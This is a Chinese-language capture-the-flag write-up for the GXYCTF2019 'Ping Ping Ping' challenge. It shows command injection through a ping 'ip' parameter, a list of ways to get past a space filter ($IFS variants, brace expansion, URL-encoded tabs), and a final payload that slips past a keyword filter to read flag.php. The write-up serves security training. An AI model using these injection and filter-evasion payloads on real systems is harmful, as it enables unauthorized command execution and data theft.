





# [GXYCTF2019]Ping Ping Ping

## Tag

命令绕过 RCE

***

## Writeup

注入 `?ip=127.0.0.1;ls` 可以看到里面有一个 flag.php：



尝试直接 `?ip=127.0.0.1;cat flag.php` 会发现会过滤空格：



过滤空格的方式：

```
${IFS}$9
{IFS}
$IFS
${IFS}
$IFS$1 //$1改成$加其他数字貌似都行
IFS
<
<>
{cat,flag.php} //用逗号实现了空格功能，需要用{}括起来
%20
%09
X=$'cat\x09./flag.php';$X //(\x09表示tab,也可以用\x20)
```

会发现过滤 flag：



查看一下 index.php 里面有什么：



可以看到它会顺序匹配 flag 四个字母，有一个 a 变量，Payload：`/?ip=127.0.0.1;a=g;cat$IFS$1fla$a.php`

